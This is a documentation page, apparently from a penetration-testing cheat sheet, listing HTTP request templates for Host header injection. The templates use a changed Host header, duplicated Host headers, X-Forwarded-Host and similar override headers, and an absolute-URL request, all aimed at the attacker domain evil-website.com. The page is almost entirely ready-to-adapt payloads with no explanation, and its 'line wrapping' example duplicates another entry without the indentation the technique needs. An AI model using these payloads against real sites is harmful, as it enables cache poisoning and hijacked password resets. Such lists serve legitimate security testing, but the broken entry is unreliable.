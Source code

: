 ```yaml
---
title: "Host Header Injection"
draft: false
images: []
menu:
  docs:
    parent: "Web"
weight: 100
toc: true
---
```


### Change the host header
```
GET /index.php HTTP/1.1
Host: evil-website.com
...
```
### Duplicating the host header
```
GET /index.php HTTP/1.1
Host: vulnerable-website.com
Host: evil-website.com
...
```
### Add line wrapping
```
GET /index.php HTTP/1.1
Host: vulnerable-website.com
Host: evil-website.com
...
```
### Add host override headers
```
X-Forwarded-For : evil-website.com
X-Forwarded-Host : evil-website.com
X-Client-IP : evil-website.com
X-Remote-IP : evil-website.com
X-Remote-Addr : evil-website.com
X-Host : evil-website.com
```
### X-Forwarded-For : evil.com
```
GET /index.php HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For : evil-website.com
...
```
### Supply an absolute URL
```
GET https://vulnerable-website.com/ HTTP/1.1
Host: evil-website.com
...
```